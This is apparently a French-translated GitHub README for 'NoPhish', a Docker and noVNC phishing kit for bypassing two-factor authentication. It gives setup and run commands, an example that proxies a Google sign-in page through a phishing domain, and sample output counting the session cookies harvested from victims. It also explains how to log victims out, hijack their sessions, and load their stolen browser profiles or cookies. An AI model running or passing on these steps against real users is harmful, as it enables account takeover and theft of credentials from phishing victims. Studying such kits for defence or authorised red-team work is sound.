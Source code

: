 # NoPhish
 
Un autre kit d'outils de phishing qui fournit une infrastructure basée sur docker et noVNC. L'ensemble de la configuration est basé sur l'article initial de [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) et [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

Une description détaillée de la configuration est disponible ici - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Assurez-vous que docker est installé et fonctionne.

Installez les modules python requis :

```console
pip install lz4
```

Installez la configuration (qui créera les images Docker requises) :

```console
setup.sh install
```

## Exécution

La configuration offre les paramètres suivants :

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

Un fonctionnement de base ressemble à ce qui suit :

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

Pendant l'exécution, l'aperçu suivant fournit un état par URL du nombre de cookies ou d'informations de session collectés.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Veuillez noter que l'outil exportera tous les cookies / informations de session même lorsqu'ils ne sont pas liés à une connexion réussie.

De plus, vous pouvez également interagir directement avec l'outil sur la page de statut - `http(s)://%DOMAIN%:65534/status.php`. Là, vous avez la possibilité de déconnecter l'utilisateur et de prendre directement le contrôle de la session.

Dans la version actuelle de l'outil, deux conteneurs sont lancés pour chaque utilisateur - un pour les ordinateurs de bureau et un pour les appareils mobiles. En fonction de l'agent utilisateur, la cible est redirigée vers le conteneur approprié. La sortie du conteneur mobile est nommée avec un "m" en tête (par exemple mphis1-ffprofile).

## Utilisation de l'export de profil
Si vous utilisez l'export complet du profil FireFox, vous pouvez simplement appeler firefox avec -profile comme suit :

Sous Windows :
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

Sous Linux :
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Tout est restauré, y compris le dernier site visité.

Veuillez noter que par défaut, vous devez extraire l'archive zip ou définir le paramètre `-z` à `false`. Si le format d'export `-e simple` est choisi, deux fichiers json seront générés et peuvent être utilisés avec Cookiebro disponible pour [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) et [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## Nettoyage

Pendant une exécution, le script peut être interrompu avec `ctrl` + `c` - tous les conteneurs docker en cours seront alors supprimés. Pour supprimer complètement l'installation, exécutez `setup.sh cleanup`.


---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-29

---